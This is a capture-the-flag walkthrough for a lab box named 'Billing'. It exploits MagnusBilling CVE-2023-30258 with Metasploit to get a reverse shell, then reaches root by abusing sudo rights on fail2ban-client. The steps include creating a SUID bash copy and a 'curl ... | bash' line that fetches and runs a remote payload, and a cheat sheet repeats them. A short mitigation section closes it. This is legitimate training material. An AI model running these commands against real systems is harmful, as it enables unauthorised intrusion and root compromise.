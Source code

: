 # Billing — Consolidated Walkthrough

> **Difficulty:** Medium — Web / Linux Privilege Escalation  
> **Goal:** Web RCE → Low-privilege shell (`asterisk`) → Privilege escalation to `root` via `fail2ban` misuse.

---

> This guide merges multiple community writeups into a clear, professional walkthrough. It emphasizes the logic behind each step, provides exact commands, and includes defensive notes for mitigation.

---

## 📑 Table of Contents

1. [Overview](#overview)
2. [Tools & Prereqs](#tools--prereqs)
3. [High-level Attack Flow](#high-level-attack-flow)
4. [Step-by-step Walkthrough](#step-by-step-walkthrough)
    - [Recon](#recon)
    - [Find the MagnusBilling App (`/mbilling`)](#find-the-magnusbilling-app-mbilling)
    - [Exploit: CVE-2023-30258 (MagnusBilling RCE)](#exploit-cve-2023-30258-magnusbilling-rce)
    - [Stabilize Shell & Enumerate as `asterisk`](#stabilize-shell--enumerate-as-asterisk)
    - [Privilege Escalation — Abusing `fail2ban-client` via `sudo` Rights](#privilege-escalation--abusing-fail2ban-client-via-sudo-rights)
    - [Alternate fail2ban Abuse](#alternate-fail2ban-abuse-actionban-to-cat-roottxt-or-spawn-reverse-shell)
5. [Cheat Sheet — Commands](#cheat-sheet---commands)
6. [Defensive Notes & Mitigations](#defensive-notes--mitigations)
7. [References](#references)

---

## 📝 Overview

**Billing** is a web box centered around **MagnusBilling**. Enumeration reveals a web app at `/mbilling` and services like MariaDB and Asterisk Manager. MagnusBilling (unpatched) is vulnerable to **CVE-2023-30258**, enabling unauthenticated remote command execution. This leads to a shell as `asterisk`. The box allows `asterisk` to run `/usr/bin/fail2ban-client` as root, which can be abused to execute arbitrary root commands and obtain a root shell.

---

## 🛠️ Tools & Prereqs

- **Attacker machine:** Kali / Parrot / Linux
- **Local tools:** `nmap`, `gobuster`/`dirb`, `curl`, `nc`, `msfconsole`, `socat`/`rlwrap`, `rsync`, `bash`, `python3`
- **Wordlists:** Common directory/web fuzzing lists
- **Listener:** `nc -lvnp <port>` or Metasploit handler

---

## 🚦 High-level Attack Flow

1. **Enumerate ports/services** (`nmap`) → discover port 80 + `/mbilling` ([0xb0b.gitbook.io][1])
2. **Identify MagnusBilling** at `/mbilling` ([0xb0b.gitbook.io][1])
3. **Exploit CVE-2023-30258** → reverse shell as `asterisk` ([0xb0b.gitbook.io][1])
4. **Stabilize shell, enumerate filesystem/users** ([0xb0b.gitbook.io][1])
5. **Privilege escalation:** abuse `fail2ban-client` via `sudo` ([0xb0b.gitbook.io][1])
6. **Obtain root**, capture `/root/root.txt` ([0xb0b.gitbook.io][1])

---

## 🏁 Step-by-step Walkthrough

### 1️⃣ Recon

Scan for open ports and directories:

```bash
nmap -sC -sV -p- -oA billing_initial <TARGET>
gobuster dir -u http://<TARGET> -w /usr/share/wordlists/dirb/common.txt -t 40 -x php,html,txt
```

**Findings:**  
- `80/tcp` → web server, `robots.txt` references `/mbilling/`
- `3306` → MariaDB  
- `5038` → Asterisk Manager

---

### 2️⃣ Find the MagnusBilling App (`/mbilling`)

Visit `http://<TARGET>/mbilling/` in your browser or via `curl`. The app identifies as **MagnusBilling**. Public exploits exist for **CVE-2023-30258**.

---

### 3️⃣ Exploit: CVE-2023-30258 (MagnusBilling RCE)

**A. Metasploit (Recommended):**
```text
msf6 > search magnus
msf6 > use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
msf6 exploit(...)> set RHOST <TARGET>
msf6 exploit(...)> set LHOST <YOUR_IP>
msf6 exploit(...)> run
```
*Yields shell as `asterisk`.*

**B. Manual POC:**  
Send crafted HTTP requests with `curl` to trigger a reverse shell. See [NATSec][2] for details.

---

### 4️⃣ Stabilize Shell & Enumerate as `asterisk`

Upgrade shell and enumerate:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
id; whoami; ls -la; cat /etc/passwd
```

Look for user home directories, readable configs, and `/etc/fail2ban`.

---

### 5️⃣ Privilege Escalation — Abusing `fail2ban-client` via `sudo` Rights

Check allowed `sudo` commands:

```bash
sudo -l
```
*Output:*
```
(ALL : ALL) NOPASSWD: /usr/bin/fail2ban-client
```

**Exploit Sequence:**
```bash
rsync -av /etc/fail2ban/ /tmp/fail2ban/
cat > /tmp/script <<'EOF'
#!/bin/sh
cp /bin/bash /tmp/bash
chmod 755 /tmp/bash
chmod u+s /tmp/bash
EOF
chmod +x /tmp/script
cat > /tmp/fail2ban/action.d/custom-start-command.conf <<'EOF'
[Definition]
actionstart = /tmp/script
EOF
cat >> /tmp/fail2ban/jail.local <<'EOF'
[my-custom-jail]
enabled = true
action = custom-start-command
EOF
sudo fail2ban-client -c /tmp/fail2ban/ -v restart
/tmp/bash -p -c 'whoami; id; cat /root/root.txt'
```

---

### 6️⃣ Alternate fail2ban Abuse

**Read `root.txt` via actionban:**
```bash
sudo fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'cat /root/root.txt > /tmp/root.txt && chmod 666 /tmp/root.txt'"
sudo fail2ban-client set sshd banip 127.0.0.1
cat /tmp/root.txt
```

**Spawn reverse shell:**
```bash
sudo fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'curl http://<YOUR_IP>:9000/shell.sh | bash'"
sudo fail2ban-client set sshd banip 127.0.0.1
```

> ⚠️ **Note:** Ensure your listener/HTTP server is ready. Outbound HTTP may be restricted in some labs.

---

## 🧩 Cheat Sheet — Commands

```bash
# Recon
nmap -sC -sV -p- -oA billing_scan <TARGET>
gobuster dir -u http://<TARGET>/mbilling -w /usr/share/wordlists/dirb/common.txt -t 40 -x php,html,txt

# Exploit
msf6 > use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
msf6 > set RHOST <TARGET>
msf6 > set LHOST <YOUR_IP>
msf6 > run

# Shell stabilization
python3 -c 'import pty; pty.spawn("/bin/bash")'
id; whoami; ls -la; cat /etc/passwd

# Privilege escalation (fail2ban)
rsync -av /etc/fail2ban/ /tmp/fail2ban/
cat > /tmp/script <<'EOF'
#!/bin/sh
cp /bin/bash /tmp/bash
chmod 755 /tmp/bash
chmod u+s /tmp/bash
EOF
chmod +x /tmp/script
cat > /tmp/fail2ban/action.d/custom-start-command.conf <<'EOF'
[Definition]
actionstart = /tmp/script
EOF
cat >> /tmp/fail2ban/jail.local <<'EOF'
[my-custom-jail]
enabled = true
action = custom-start-command
EOF
sudo fail2ban-client -c /tmp/fail2ban/ -v restart
/tmp/bash -p -c 'cat /root/root.txt'
```

---

## 🛡️ Defensive Notes & Mitigations

- **Patch MagnusBilling** to address CVE-2023-30258.
- **Restrict `sudo` access** for `fail2ban-client` to trusted users only.
- **Monitor config directories** for unauthorized changes.
- **Audit fail2ban actions** and custom scripts.

---

